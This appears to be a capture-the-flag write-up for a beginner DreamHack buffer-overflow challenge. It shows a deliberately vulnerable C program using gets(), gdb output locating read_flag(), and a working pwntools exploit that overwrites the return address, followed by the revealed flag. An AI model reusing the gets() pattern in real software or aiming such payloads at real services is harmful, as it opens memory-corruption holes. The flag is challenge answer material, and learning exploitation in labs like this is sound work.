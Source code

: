 ### Overview
This is an easy pwn challenge with buffer overflow
Take a look at the source code:
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>


void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}


void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);

    signal(SIGALRM, alarm_handler);
    alarm(30);
}


void read_flag() {
    system("cat flag");
}

int main(int argc, char *argv[]) {

    char buf[0x80];

    initialize();
    
    gets(buf);

    return 0;
}
```
We have unlimited buf, so our goal is override full 0x80 bytes of buf and saved ebp
and then change return address to read_flag() function

Let's check this executable file is 32 bit or 64 bit:
```
khanh@ubuntu:~/Documents/WorkSpaceDreamHack/PWN-dreamhack/basic_exploitation101$ file basic_exploitation_001
basic_exploitation_001: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=3e59f379d1f0653db81908d1d3a5eb9dce83816f, not stripped
```
So it is 32 bit, so we just need to override 4 bytes ebp and change return address to read_flag() function.

Now let's find address of read_flag() function:
```gdb
gef➤  info functions read_flag 
All functions matching regular expression "read_flag":

Non-debugging symbols:
0x080485b9  read_flag

```
### Exploitation
```py
from pwn import *
p = remote("host3.dreamhack.games", 20962)
payload = b"A"* 0x80 + b"A"*4 + p32(0x080485b9)
p.sendline(payload)
p.interactive() 
```
Run this script and get result flag:

```
khanh@ubuntu:~/Documents/WorkSpaceDreamHack/PWN-dreamhack/basic_exploitation101$ python3 exploit.py 
[+] Opening connection to host3.dreamhack.games on port 20962: Done
[*] Switching to interactive mode
DH{01ec06f5e1466e44f86a79444a7cd116}[*] Got EOF while reading in interactive
$  
```